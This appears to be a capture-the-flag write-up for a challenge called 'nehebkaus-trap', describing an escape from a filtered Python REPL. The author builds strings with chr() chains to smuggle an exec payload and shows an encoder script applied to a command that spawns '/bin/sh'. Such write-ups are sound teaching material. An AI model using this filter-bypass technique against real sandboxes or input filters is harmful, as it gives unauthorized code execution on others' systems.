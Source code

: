 
Tags: **Miscellaneous**, **Medium**

### Challenge
In search of the ancient relic, you go looking for the Pharaoh's tomb inside the pyramids. A giant granite block falls and blocks your exit, and the walls start closing in! You are trapped. Can you make it out alive and continue your quest?

### Downloadable Files
[link](files/nehebkaus-trap)

### Solution

A good challenge, and what you were expected to do is design a jail break from a python REPL.
##### REPL
So, what I did first, was try to understand what kind of interactive interface we were dealing with - i tried `ls`, and it gave me an error, and submitting that to google, all results pointed to `python`
##### Commands
I tried a couple of python commands, and characters, and I made a list, which would help me know which programs I might use to escape the jail i.e.
```
cmds => bin,help,id,import,dir,globals,print,eval,str,exec,ord,sys
chars => {}<>TAB|()*[]=:+@!#$%^\-?
```
###### Thinking...
I thought for a while, tried to google stuff, and after a number of trial and errors, I knew I had to find a way to use numbers to craft a solution, because strings were restricted, and i couldn't use even underscores.
That's when I remembered..chr,ord..which funny enough, I had thought about but I couldn't conceptualize a working solution..playing around with it on a separate REPL, that's when this hit me - i could use **chr()** to produce chars and use **+** to join these characters and produce a **string**!!

Now everything was easier - since `exec` was enabled, I could run system commands with it i.e.
`exec('import os; os.system("ls -la"))'`

Here is the script to help out with printing the character chain:
```python
import sys

try:
        ss = sys.argv[1]
except:
        print("Error")
        exit(0)

result = ""
for s in ss:
        result+=(f"chr({ord(s)})+")

print(result[:-1])
```

to try directory listing, i run this script (`script.py`) as follows:
```python
python script.py "import os; os.system('/bin/sh')"
```
this printed some `chr(<DIGIT>)+` chain which I passed to our program and had code execution.

### Screenshots
![Screenshot_20230320_004526](https://user-images.githubusercontent.com/74212182/226214493-9d84f430-08e1-4593-8c78-feebd38a0fec.png)

![Screenshot_20230320_004839](https://user-images.githubusercontent.com/74212182/226214516-0b243579-cb4a-4c0b-b7fb-9ed69b7799cc.png)

![Screenshot_20230320_005226](https://user-images.githubusercontent.com/74212182/226214521-b4a09733-1c93-4b43-8a47-ba3f4a75a1c6.png)

![Screenshot_20230320_005309](https://user-images.githubusercontent.com/74212182/226214525-3959f297-7fff-4ea1-8281-b3cf7d85c908.png)
